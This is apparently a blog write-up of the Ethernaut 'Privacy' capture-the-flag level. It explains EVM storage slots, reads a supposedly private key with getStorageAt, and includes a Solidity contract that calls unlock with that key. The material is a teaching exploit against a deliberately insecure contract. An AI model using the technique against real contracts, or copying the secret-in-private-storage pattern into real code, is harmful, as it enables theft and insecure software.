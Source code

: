 +++
title = 'Ethernaut Level 12 - Privacy'
date = 2024-04-13
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Understand how storages work'
tags = [ 'writeups' , 'blockchain' ]
+++
# Privacy
```
The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

    Understanding how storage works
    Understanding how parameter parsing works
    Understanding how casting works

Tips:

    Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.
```
## Understanding how Storage works
> https://enderspub.kubertu.com/understand-solidity-storage-in-depth
Each EVM has a number of storage slots. Each storage slot can store 32 bytes.
* Storage stores variables, not constant
* Smaller variables are stored in the same slot until it would be filled


## Solution
Slots:
0. locked
1. ID
2. flattening, denomination, awkwardness
3. data[0]
4. data[1]
5. data[2] = key
```
await web3.eth.getStorageAt(contract.address, 5)
```
-> `0xf1b341c065a38b34e214b31a8133b46078510230cd7fa607152021ec84aab82f`


```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface Privacy {
    function unlock(bytes16 _key) external ;
}

contract Hack {

    constructor(address _target) {
        Privacy target_contract = Privacy(_target);
        // Secret key
        bytes memory b = abi.encodePacked(hex"f1b341c065a38b34e214b31a8133b46078510230cd7fa607152021ec84aab82f");
        target_contract.unlock(bytes16(b));
    }

}
```

## Level code
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```
